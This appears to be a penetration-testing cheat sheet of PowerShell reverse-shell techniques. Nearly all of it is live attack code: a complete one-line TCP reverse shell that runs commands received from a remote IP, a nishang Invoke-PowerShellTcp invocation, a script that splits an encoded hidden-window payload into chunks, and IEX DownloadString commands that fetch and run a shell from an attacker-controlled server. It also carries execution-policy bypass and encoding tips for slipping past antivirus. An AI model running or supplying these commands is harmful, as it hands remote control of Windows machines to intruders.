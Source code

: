 ### PowerShell Reverse Shells

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient("192.168.157.131",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Payload 
```shell
#https://github.com/samratashok/nishang
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1

#edit the code and add
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.216 -Port 443

```


### Format paylaod

```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```


### Trigger payload

```shell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.1.1.246/Invoke-PowerShellTcp.ps1')

#IWR works with new powershell versions / kinda AV

#Old version powershell => New-object
powershell -c 'IEX (New-Object Net.WebClient).downloadString(http://192.168.119.216/Invoke-PowerShellTcp.ps1)'

powershell -nop -exec bypass -enc nazkeikazej==
```



you can code your payload base64 to avoid bad chars [[No BAD CHARS]]
